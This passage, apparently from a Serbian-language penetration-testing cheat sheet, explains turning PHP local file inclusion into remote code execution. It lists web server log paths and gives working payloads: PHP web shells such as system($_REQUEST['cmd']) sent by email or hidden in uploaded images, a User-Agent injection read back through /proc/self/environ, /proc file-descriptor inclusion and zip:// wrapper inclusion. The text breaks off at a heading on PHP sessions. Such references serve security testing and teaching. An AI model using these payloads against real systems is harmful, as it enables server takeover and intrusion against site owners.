 ```python
/var/log/apache2/access.log
/var/log/apache/access.log
/var/log/apache2/error.log
/var/log/apache/error.log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/httpd/error_log
```

### Putem e-pošte

**Pošaljite e-poštu** na interni nalog (user@localhost) koja sadrži vaš PHP payload poput `<?php echo system($_REQUEST["cmd"]); ?>` i pokušajte da je uključite u e-poštu korisnika sa putanjom poput **`/var/mail/<USERNAME>`** ili **`/var/spool/mail/<USERNAME>`**

### Putem /proc/\*/fd/\*

1. Otpremite mnogo shell skripti (na primer: 100)
2. Uključite [http://example.com/index.php?page=/proc/$PID/fd/$FD](http://example.com/index.php?page=/proc/$PID/fd/$FD), gde je $PID PID procesa (može se nasilno otkriti) i $FD deskriptor datoteke (takođe se može nasilno otkriti)

### Putem /proc/self/environ

Kao datoteka sa zapisima, pošaljite payload u User-Agent, biće reflektovan unutar datoteke /proc/self/environ

```
GET vulnerable.php?filename=../../../proc/self/environ HTTP/1.1
User-Agent: <?=phpinfo(); ?>
```

### Preko otpreme

Ako možete da otpremite datoteku, jednostavno ubacite shell payload u nju (npr: `<?php system($_GET['c']); ?>`).

```
http://example.com/index.php?page=path/to/uploaded/file.png
```

Kako biste zadržali čitljivost datoteke, najbolje je ubaciti u metapodatke slika/doc/pdf

### Putem otpremanja Zip fajla

Otpremite ZIP fajl koji sadrži komprimiranu PHP ljusku i pristupite:

```python
example.com/page.php?file=zip://path/to/zip/hello.zip%23rce.php
```

### Preko PHP sesija
